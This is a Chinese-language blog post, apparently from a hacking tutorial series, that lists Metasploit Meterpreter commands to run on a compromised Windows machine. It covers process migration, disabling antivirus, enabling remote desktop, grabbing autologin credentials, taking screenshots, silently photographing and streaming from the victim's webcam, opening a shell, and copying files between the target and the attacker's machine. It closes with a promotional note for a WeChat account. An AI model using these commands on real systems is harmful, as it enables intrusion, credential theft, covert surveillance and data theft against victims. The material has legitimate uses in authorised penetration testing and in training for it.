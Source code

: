 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit-Meterpreter-Shell信息收集相关的命令
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit-Meterpreter-Shell信息收集相关的命令
lock: need
---
```


# Metasploit-Meterpreter-Shell信息收集相关的命令

PS：以下所有的命令都是在Metasploit-Meterpreter Shell下执行的。

## 进程迁移 

1、获取目标机正在运行的进程

```
ps
```

2.查看Meterpreter Shell的进程号

```
getpid
```

3.将Meterpreter Shell进程绑定到其他进程中

```
migrate 要绑定到的进程id号
```

4.系统自动寻找合适的进程迁移

```
run post/windows/manage/migrate
```

## 系统命令

1.查看目标机的系统信息

```
sysinfo
```

2.查看目标机是否运行在虚拟机上

```
run post/windows/gather/checkvm
```

3.查看目标机最近的运行时间

```
idletime
```

4.查看目标机完整的网路设置

```
route
```

5.将当前会话放到后台

```
background
```

6.查看目标机器上已经渗透成功的用户名

```
getuid
```

7.关闭目标机杀毒软件

```
run post/windows/manage/killav
```

8.启动目标机的远程桌面协议

```
run post/windows/manage/enable_rdp
```

9.查看目标机的本地子网情况

```
run post/windows/manage/autoroute
```

10.列举当前有多少用户登录了目标机

```
run post/windows/gather/enum_logged_on_users
```

11.列举安装在目标机上的应用程序

```
run post/windows/gather/enum_applications
```

12.抓取目标机自动登录的用户名和密码

```
run post/windows/gather/credentials/windows)autologin
```

13.抓取目标机屏幕截图

```
load espia
screengrab
```

或者

```
screenshot
```

14.查看目标机有没有摄像头

```
webcam_list
```

15.打开目标机摄像头拍照

```
webcam_snap
```

此命令会将目标机摄像头拍照的图片，以图片的形式保存在攻击机的/root目录下

16.开启摄像头直播模式

```
webcam_stream
```

此命令会将目标机摄像头录制的视频，以html文件的形式保存在攻击机的/root目录下

17.进行目标机shell

```
shell
```

18.停止Meterpreter会话或者停止Shell会话返回Meterpreter

```
exit
```

## 文件系统命令

1.查看当前处于目标机的哪个目录

```
pwd或getwd
```

2.查看当前处于本地的哪个目录

```
getlwd
```

3.列举目标机当前目录中的所有文件

```
ls
```

4.切换目标机目录

```
cd
```

5.搜索C盘所有以.txt为扩展名的文件

```
search -f *.txt -d c:\
```

其中，-f参数用于执行搜索文件模式，-d参数用于指定在哪个目录下进行搜索

6.下载目标机C盘的test.txt文件到攻击机/root下

```
download c:\test.txt /root
```

7.上传攻击机root目录下的test.txt文件到目标机C盘下

```
upload /root/test.txt c:\
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)

